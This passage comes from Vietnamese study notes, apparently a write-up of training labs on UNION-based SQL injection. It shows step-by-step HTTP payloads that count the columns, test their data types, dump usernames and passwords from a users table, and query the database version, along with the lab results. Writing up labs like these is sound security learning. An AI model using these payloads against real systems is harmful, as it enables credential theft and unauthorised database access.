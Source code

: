 Cột `2` chứa hoặc chấp nhận dữ liệu chuỗi.

* Tấn công để truy xuất dữ liệu `username`, `password` từ bảng `users` bằng cách nối 2 chuỗi `username` và `password` thành một và hiển thị trong cột `2`.

```http
GET /filter?category=Accessories' UNION SELECT NULL,username||'~'||password FROM users-- 
```

Và ta có được thông tin đăng nhập `administrator~8117jw3c5i6exwn3xtv2`.

# Kiểm tra cơ sở dữ liệu trong các cuộc tấn công SQLi

Để khai thác lỗ hổng SQL injection, thường cần tìm thông tin về cơ sở dữ liệu, bao gồm:

* Loại và phiên bản của phần mềm cơ sở dữ liệu.

* Các bảng và cột mà cơ sở dữ liệu đang chứa.

## Truy vấn loại cơ sở dữ liệu và phiên bản.

```sql
Microsoft, MySQL → SELECT @@version
Oracle           → SELECT * FROM v$version
PostgreSQL       → SELECT version()
```

### Ví dụ
**Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**
* Xác định số cột trả về trong truy vấn gốc

 ```http
GET /filter?category=Accessories' UNION SELECT NULL#            //500 Internal Server Error
GET /filter?category=Accessories' UNION SELECT NULL,NULL#       //200 OK
GET /filter?category=Accessories' UNION SELECT NULL,NULL,NULL#  //500 Internal Server Error
//Sử dung # thay cho --  do ứng dụng đã fix -- 
 ```

 Số cột bằng `2`.

* Xác định kiểu dữ liệu của các cột

 ```http
GET /filter?category=Accessories' UNION SELECT 'abc',NULL#       //200 OK
GET /filter?category=Accessories' UNION SELECT NULL,'abc'#       //200 OK
```

Cả `2` cột đều chứa hoặc chấp nhận dữ liệu chuỗi.

* Tấn công để truy xuất dữ liệu về kiểu và phiên bản database

 ```http
GET /filter?category=Accessories' UNION SELECT @@version,NULL#       //200 OK
```

Kết quả đạt được là `8.0.42-0ubuntu0.20.04.1`.

## Liệt kê nội dung của cơ sở dữ liệu
